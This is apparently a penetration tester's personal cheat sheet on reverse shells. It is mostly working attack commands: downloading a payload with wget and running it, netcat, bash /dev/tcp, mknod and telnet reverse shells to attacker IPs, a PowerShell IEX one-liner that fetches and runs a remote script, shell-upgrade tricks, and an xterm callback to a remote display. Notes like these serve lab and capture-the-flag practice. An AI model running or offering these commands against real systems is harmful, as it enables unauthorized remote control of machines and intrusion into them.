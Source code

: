 # Reverse Shell
[TOC]
###### tags: `Security` `ReverseShell` 

# Move Payload to Target
## Download from HTTPS Server
```
wget --no-check-certificate wildfoo.tw/reverse_shell -O /tmp/s
sh /tmp/s
```


# Spawn Reverse Shell
## Online Resource
[7 linux shells using built in tools](https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
[Pentestmonkey - Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Cheat Sheet
### netcat (really reliable)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
`ncat -lk -n -v 7777`
#### with ssl
```
Target:
ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl

Attacker:
ncat -v 10.0.0.22 4444 --ssl
```

### bash
```
bash -i >& /dev/tcp/127.0.0.1/8787 0>&1
```
```
exec 5<>/dev/tcp/127.0.0.1/8787; cat <&5 | while read line; do $line 2>&5 >&5; done
```

### mknod
if `GAPING_SECURITY_HOLE = disabled`
```
mknod backpipe p && nc 10.10.14.207 7777 0<backpipe | /bin/bash 1>backpipe
```

### telnet
```
mknod backpipe p && telnet 10.10.14.207 7777 0<backpipe | /bin/bash
```

### php
`/usr/share/laudanum/php/php-reverse-shell.php`

### powershell
[nishang/Shells](https://github.com/samratashok/nishang/tree/master/Shells)
```
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 reverse.ps1
vim reverse.ps1
: copy
: .EXAMPLE 
: PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
: to end of file and edit ip and port and delete 'PS > '

python3 -m http.server 80
```
```
powershell IEX(New-Object Net.WebClient).downloadstring("http://10.10.14.42/reverse.ps1")
```
sometimes we need use `\"` to escape

# Spwning fully interactive TTY Shell
## Online Resource
* [NETSEC - Spawning TTY Shell cheat sheet](https://netsec.ws/?p=337)

## Overview
通常拿到的 reverse shell 會有一些問題
* Some commands, like `su` and `ssh` require a proper terminal to run
* STDERR usually isn't displayed
* Can't properly use text editors like vim
* No tab-complete
* No up arrow history
* No job control

[Upgrading simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

### Steps
* **use `bash`**
* `ncat -lk -n -v 7777` and get shell
* type `python -c 'import pty; pty.spawn("/bin/bash")'` in reverse shell
* `Ctrl-Z`
* type `stty raw -echo`
* `fg` `<enter>` `<enter>`
* `export TERM=xterm` allow us use `Ctrl-l` to clean the screen

![](https://i.imgur.com/mYoZfnW.png)


## Cheat Sheet
### Python
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
```
echo os.system('/bin/bash')
```
```
/bin/sh -i
```
### perl
```
perl -e 'exec "/bin/sh";'
```
```
exec "/bin/sh";
```
### ruby
```
exec "/bin/sh"
```
### lua
```
os.execute('/bin/sh')
```
### From within IRB
```
exec "/bin/sh"
```
### From within vi
```
:!bash
```
```
:set shell=/bin/bash:shell
```
### From within nmap
```
!sh
```

# Other Tips 
## rlwrap
## Getting Xterm shell
Make sure your Xserver is listening to TCP:
```
$ netstat -lntup
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID    
tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::6000                 :::*                    LISTEN      -                   
```

New Xserver versions have tcp listening disabled by default. Consult your distro how to enable it. You may have to change your display manager settings or the xserverrc file, e.g.:
```shell=
$ cat /etc/X11/xinit/xserverrc
#!/bin/sh
if [ -z "$XDG_VTNR" ]; then
  exec /usr/bin/X -listen tcp "$@"
else
  exec /usr/bin/X -listen tcp "$@" vt$XDG_VTNR
fi
```
Then all you have to do is to allow incoming connections from the specific IP:
```
$ xhost +10.10.10.69
```
Now let’s connect:
```
/usr/bin/xterm -display 10.10.15.203:0
```
or
```
DISPLAY=10.10.15.203:0 /usr/bin/xterm
```